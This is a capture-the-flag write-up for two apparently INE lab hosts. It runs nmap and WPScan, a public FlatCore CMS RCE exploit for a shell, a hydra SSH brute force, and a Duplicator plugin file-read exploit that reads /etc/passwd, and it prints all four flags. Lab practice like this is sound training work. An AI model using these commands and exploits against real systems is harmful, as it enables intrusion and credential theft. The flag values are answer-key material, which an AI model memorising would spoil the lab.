


## Tasks



## target1.ine.local — Enumeration

```
nmap -sV -sC target1.ine.local
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: flatCore
|_http-title: Homepage
| http-robots.txt: 4 disallowed entries
|_/acp/ /core/ /lib/ /modules/
```

---
## Flag 1

> _Identify and exploit the vulnerable web application running on target1.ine.local and retrieve the flag from the root directory. The credentials admin:password1 may be useful._

The `http-generator` tag identifies the CMS as **FlatCore**. The version (2.0.7) is confirmed via the admin panel footer at `/acp/` after logging in with the provided credentials:




Searching for public exploits:

```
searchsploit flatcore
```

```
FlatCore CMS 2.0.7 - Remote Code Execution (RCE) (Authenticated)  | php/webapps/50262.py
```

```
searchsploit -m php/webapps/50262.py
```

CVE-2021-39608 allows an authenticated administrator to upload an arbitrary PHP file through the media manager, achieving OS command execution as `www-data`. The PoC automates login, upload, and interactive shell:

```
python3 50262.py http://target1.ine.local admin password1
```

```
Logged in
$ whoami
www-data

$ ls /
bin  boot  dev  etc  flag1.txt  home  lib  ...

$ cat /flag1.txt
FLAG1{dec8fc62344949e38beccfa301852c44}
```

---
## Flag 2

> _Further, identify and compromise an insecure system user on target1.ine.local._

The shell from Flag 1 reveals a local user:

```
$ ls /home
iamaweakuser
```

Brute-forcing SSH:

```
hydra -l iamaweakuser \
      -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
      ssh://target1.ine.local
```

```
[22][ssh] host: target1.ine.local   login: iamaweakuser   password: angel
```

```
ssh iamaweakuser@target1.ine.local
```

```
iamaweakuser@target1:~$ cat flag2.txt
FLAG2{f66d35d3e5c04eb6ab6f209735839578}
```

---
## target2.ine.local — Enumeration

```
nmap -sC -sV target2.ine.local
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 6.1
|_http-title: sample_site
```

Aggressive plugin enumeration with WPScan:

```
wpscan --url http://target2.ine.local \
       --plugins-detection aggressive \
       --plugins-version-detection aggressive
```

```
[+] duplicator
    Version: 1.3.26 (80% confidence)
    [!] The version is out of date, the latest version is 1.5.9
```

Version confirmed against the readme:

```
curl -s http://target2.ine.local/wp-content/plugins/duplicator/readme.txt
```

```
Stable tag: 1.3.26
```

---
## Flag 3

> _Identify and exploit the vulnerable plugin used by the web application running on target2.ine.local and retrieve flag3.txt from the root directory._

Duplicator 1.3.26 is vulnerable to an unauthenticated arbitrary file read (CVE-2020-11738):

```
searchsploit duplicator
```

```
Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read  | php/webapps/50420.py
```

The exploit requires no credentials. Reading `/etc/passwd` confirms the system users:

```
python3 50420.py http://target2.ine.local /etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
...
iamacrazyfreeuser:x:1000:1000:,,,:/home/iamacrazyfreeuser:/bin/bash
```

Reading the flag directly from the filesystem root:

```
python3 50420.py http://target2.ine.local /flag3.txt
```

```
FLAG3{719400ba89d1472ba72569fd2d7547be}
```

---
## Flag 4

> _Further, identify and compromise a system user requiring no authentication on target2.ine.local._

The `/etc/passwd` output from Flag 3 disclosed the user `iamacrazyfreeuser`. Attempting SSH with no password:

```
ssh iamacrazyfreeuser@target2.ine.local
```

```
iamacrazyfreeuser@target2:~$ cat flag4.txt
FLAG4{6c5941151c7549abbc1e0c7526365990}
```

The account has no password set, granting immediate shell access to any attacker who knows the username.

---
## Summary

|#|Target|Technique|Flag|
|---|---|---|---|
|1|target1|FlatCore CMS 2.0.7 RCE (CVE-2021-39608)|`FLAG1{dec8fc62344949e38beccfa301852c44}`|
|2|target1|SSH brute-force (weak password)|`FLAG2{f66d35d3e5c04eb6ab6f209735839578}`|
|3|target2|Duplicator 1.3.26 unauth file read (CVE-2020-11738)|`FLAG3{719400ba89d1472ba72569fd2d7547be}`|
|4|target2|SSH login — no password required|`FLAG4{6c5941151c7549abbc1e0c7526365990}`|